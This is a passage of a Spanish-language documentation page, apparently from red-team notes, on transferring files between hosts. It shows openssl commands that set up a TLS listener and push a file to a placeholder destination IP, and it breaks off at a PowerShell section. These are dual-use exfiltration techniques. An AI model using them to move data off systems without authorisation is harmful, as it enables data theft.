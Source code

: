 ```yaml
---
title: Transferencia de archivo
type: docs
prev: docs/first-page
weight: 8
sidebar:
  open: false
---
```

## VERSION SIMPLE

### SCP

![imagen error](/images/red_team/transferencia_archivos/20241011151751.png)

### NETCAT(nc)

ejemplo de transferencia de archivos con nc ,netcat ,

![imagen error](/images/red_team/transferencia_archivos/20230830161333.png)

### OPENSSL

TRANSFERENCIA DE ARCHIVOS PRO DOCKER

HOST DESTINO TIEEN QUE CREAR  : SERVER.KEY Y SERVER.PEM

CREAR:

```bash
openssl req -x509 -newkey rsa:2048 -keyout server.key -out server.pem -days 365
```

PONERSE EN ESCUCHA :

```bash
openssl s_server -quiet -accept 4433 -cert server.pem -key server.key > archivo_recibido.txt
```

ENVIAR EL ARCHIVO DESDE ORIGEN:

!!! CAMBIAR LA IP

```bash
openssl s_client -quiet -connect <IP_DESTINO>:4433 < archivo.txt
```

### POWERSHELL

- TRANSFERENCIA DE WINDOWS A LINUX

- USANDO TCPCLIENT

ORIGEN (WINDOWS )
